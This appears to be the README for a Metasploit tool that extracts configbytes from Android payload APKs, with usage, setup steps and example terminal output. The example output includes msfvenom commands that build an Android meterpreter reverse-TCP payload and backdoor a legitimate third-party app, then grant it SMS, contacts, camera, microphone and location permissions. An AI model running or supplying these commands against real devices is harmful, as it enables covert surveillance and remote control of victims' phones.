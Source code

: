 apk_configbytes_extract
==========

    apk_configbytes_extract - a tool to extract configbytes from an android payload.
    Usage: ./apk_configbytes_extract.rb < -a apk-file -o path -j path > [options]
    Example: ./apk_configbytes_extract.rb -a metasploit.apk -o /root/configbytes.txt -j /root/fernflower.jar
     
    Options:
        -a, --apk             <path>     Specify apk to extract configbytes
        -o, --out             <path>     Save configbytes to a file
        -j, --jar             <path>     Specify fernflower path
        -v, --verbose                    Displays verbose output
        -k, --keep                       Keep working directory
        -h, --help                       Show this message

---

TOOLS: (JAVA NEEDED)
-----------------------------
- d2j-dex2jar
- apktool
- fernflower.jar

---

### Fernflower

Among the tools needed to run apk_configbytes_extract.rb, you will need the `fernflower.jar` file

Follow these steps:

    git clone https://github.com/JetBrains/intellij-community
    cd intellij-community/plugins/java-decompiler/engine/
    ./gradlew build

You will find `fernflower.jar` in `intellij-community/plugins/java-decompiler/engine/build/libs/`

---

### Side Note:
If you do not select an output option...

(ex. `./apk_configbytes_extract -a sp_injected.apk -j /root/fernflower.jar`)

program will still run. 

However, the temporary directory where work will be done is kept and configbytes are saved inside the directory 
as configbytes.txt

---

### Example Ouput(s):
    root@kali:~/git/metasploit-framework# ./msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.8 LPORT=4444 -f raw -o /tmp/payload.apk
    [-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
    [-] No arch selected, selecting arch: dalvik from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 10185 bytes
    Saved as: /tmp/payload.apk
    
    root@kali:~/git/metasploit-framework# tools/payloads/configbytes/apk_configbytes_extract.rb -a /tmp/payload.apk -j /root/fernflower.jar
    [-] No output option selected, working in /tmp/d20210622-3759-55s3ej/
    [+] Renaming apk file to zip file
    [+] Using unzip on zip file for dex file
    [+] Using d2j-dex2jar on dex file to create jar file
    [+] Using unzip on jar file for class files
    [+] Using apktool to read AndroidManifest
    [+] Package path found: com/metasploit/stage
    [+] Using fernflower to change class file to java file
    [+] Class Path: /tmp/d20210622-3759-55s3ej/classes/com/metasploit/stage
    [+] Metasploit Payload Class found!
    [+] /tmp/d20210622-3759-55s3ej/java/Payload.java
    [+] Saved as: /tmp/d20210622-3759-55s3ej/configbytes.txt
    
    root@kali:~/git/metasploit-framework# file /tmp/d20210622-3759-55s3ej/configbytes.txt
    /tmp/d20210622-3759-55s3ej/configbytes.txt: ASCII text, with very long lines, with no line terminators
    
    
    
    
    root@kali:~/git/metasploit-framework# ./msfvenom -p android/meterpreter/reverse_tcp -x /tmp/com.ezequielc.successplanner.apk LHOST=192.168.1.8 LPORT=4444 -f raw -o /tmp/sp_injected.apk
    Using APK template: /tmp/com.ezequielc.successplanner.apk
    [-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
    [-] No arch selected, selecting arch: dalvik from the payload
    [*] Creating signing key and keystore..
    [*] Decompiling original APK..
    [*] Decompiling payload APK..
    [*] Locating hook point..
    [*] Adding payload as package com.ezequielc.successplanner.sycxe
    [*] Loading /tmp/d20210622-3972-1q5ijmm/original/smali/com/ezequielc/successplanner/activities/MainActivity.smali and injecting payload..
    [*] Poisoning the manifest with meterpreter permissions..
    [*] Adding <uses-permission android:name="android.permission.CHANGE_WIFI_STATE"/>
    [*] Adding <uses-permission android:name="android.permission.WAKE_LOCK"/>
    [*] Adding <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
    [*] Adding <uses-permission android:name="android.permission.WRITE_CONTACTS"/>
    [*] Adding <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>
    [*] Adding <uses-permission android:name="android.permission.ACCESS_WIFI_STATE"/>
    [*] Adding <uses-permission android:name="android.permission.READ_CONTACTS"/>
    [*] Adding <uses-permission android:name="android.permission.READ_SMS"/>
    [*] Adding <uses-permission android:name="android.permission.READ_CALL_LOG"/>
    [*] Adding <uses-permission android:name="android.permission.RECORD_AUDIO"/>
    [*] Adding <uses-permission android:name="android.permission.WRITE_SETTINGS"/>
    [*] Adding <uses-permission android:name="android.permission.WRITE_CALL_LOG"/>
    [*] Adding <uses-permission android:name="android.permission.SET_WALLPAPER"/>
    [*] Adding <uses-permission android:name="android.permission.READ_PHONE_STATE"/>
    [*] Adding <uses-permission android:name="android.permission.RECEIVE_SMS"/>
    [*] Adding <uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION"/>
    [*] Adding <uses-permission android:name="android.permission.CALL_PHONE"/>
    [*] Adding <uses-permission android:name="android.permission.RECORD_AUDIO"/>
    [*] Adding <uses-permission android:name="android.permission.SEND_SMS"/>
    [*] Adding <uses-permission android:name="android.permission.CAMERA"/>
    [*] Rebuilding apk with meterpreter injection as /tmp/d20210622-3972-1q5ijmm/output.apk
    [*] Signing /tmp/d20210622-3972-1q5ijmm/output.apk
    [*] Aligning /tmp/d20210622-3972-1q5ijmm/output.apk
    Payload size: 1991870 bytes
    Saved as: /tmp/sp_injected.apk
    
    root@kali:~/git/metasploit-framework# tools/payloads/configbytes/apk_configbytes_extract.rb -a /tmp/sp_injected.apk -j /root/fernflower.jar -o /root/sp_configbytes.txt
    [+] Renaming apk file to zip file
    [+] Using unzip on zip file for dex file
    [+] Using d2j-dex2jar on dex file to create jar file
    [+] Using unzip on jar file for class files
    [+] Using apktool to read AndroidManifest
    [+] Package path found: com/ezequielc/successplanner
    [+] Looking for Backdoored Metasploit Payload Classes
    [+] Using fernflower to change class files to java files
    [+] Class Path: /tmp/d20210622-4256-1yq1f6k/classes/com/ezequielc/successplanner/sycxe
    [+] Metasploit Backdoored Payload Class found!
    [+] /tmp/d20210622-4256-1yq1f6k/java/Wlsba.java
    [+] Saved as: /root/sp_configbytes.txt

    root@kali:~/git/metasploit-framework# file /root/sp_configbytes.txt
    /root/sp_configbytes.txt: ASCII text, with very long lines, with no line terminators

---

### In the end
apk_configbytes_extract will save configbytes of an apk in a seperate file, preferably a text file
(see [Payload 
Class](https://github.com/rapid7/metasploit-payloads/blob/master/java/androidpayload/app/src/com/metasploit/stage/Payload.java#L32))

